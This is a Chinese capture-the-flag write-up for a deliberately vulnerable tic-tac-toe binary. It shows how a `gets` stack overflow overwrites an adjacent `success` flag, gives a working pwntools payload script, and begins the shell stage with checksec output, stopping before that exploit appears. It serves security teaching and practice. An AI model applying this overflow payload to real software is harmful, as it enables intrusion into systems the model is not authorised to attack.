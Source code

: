 为了获得第一个 flag，我们的目标是让程序运行 `success` 分支，输出 flag。正常下井字棋是肯定赢不了的（除非我代码写错了 :)），那么我们就需要在程序运行时想办法让 `success` 的值变为 `true` (1)，然后就能立刻跳出 `while` 循环而胜利。可以注意到，在变量定义的时候，`success` 就贴在 `input` 数组的旁边。

```c
bool success = false;  // human wins?
char input[128] = {};  // input is large and it will be ok.
```

那么我们能不能在 `gets` 的时候，就把 `success` 弄成 `true` 呢？对于本题给出的二进制程序文件，答案是可以的！（视编译器、编译选项的不同，这个答案可能会发生变化，所以要以给定的二进制文件为准）

### 分析

为了判断栈上 `input` 和 `success` 这两个变量的位置，我们需要使用调试工具，或者反编译工具去判断。这里以 IDA 为例。

![Variables on stack](README.assets/1.png)

可以看到，变量 `input` 距离栈帧基址 (BP) 有 0x90 bytes，变量 `success` 距离栈帧基址有 0x1 bytes，所以输入 143 个字符之后，输入值为 0x1 的字符（注意，不是 `'1'`），将 `success` 覆盖为 `true` (1) 即可。

怎么发送自己的 payload 呢？方法有很多，对于 pwn 类型的题目来说，最常用的工具是 pwntools。

```python
from pwn import *

context.log_level = "debug"
io = process("./tictactoe")

payload = "(2,2)" + (143 - 5) * 'a' + "\x01"
io.recvuntil("): ")
io.sendline(payload)
io.interactive()
```

如果需要发送 payload 到服务器，需要把 `io` 修改到 `io = remote(ip, port)` 的格式，并且加上处理 token 的代码。


## 升上天空

第一题的 flag 提示我们要 getshell 得到第二个 flag。使用 `checksec` 和 `file` 检查程序文件。

```shell
$ checksec -f tictactoe
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   1891 Symbols    Yes     14              55      tictactoe
$ file tictactoe
tictactoe: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=669c2d3e3b669e5d05e627b3c94640234927e172, not stripped
```

我们可以看到：

- NX enabled，表明可以被程序写入的内存页是不可执行的。也就是说，我们不能直接用 `gets()` 在栈上放置可执行的 shellcode，然后让程序去执行。
- Canary found，说明程序中有函数有 canary（但是如果去看 `main()` 的汇编就能发现，`main()` 是没有 canary 的），结合 `file` 输出 `statically linked`，这里的 canary 提示可能是被静态链接入程序的 C 库引入的。
- NO PIE，意味着没有地址随机化，我们不需要考虑动态获取地址的问题。
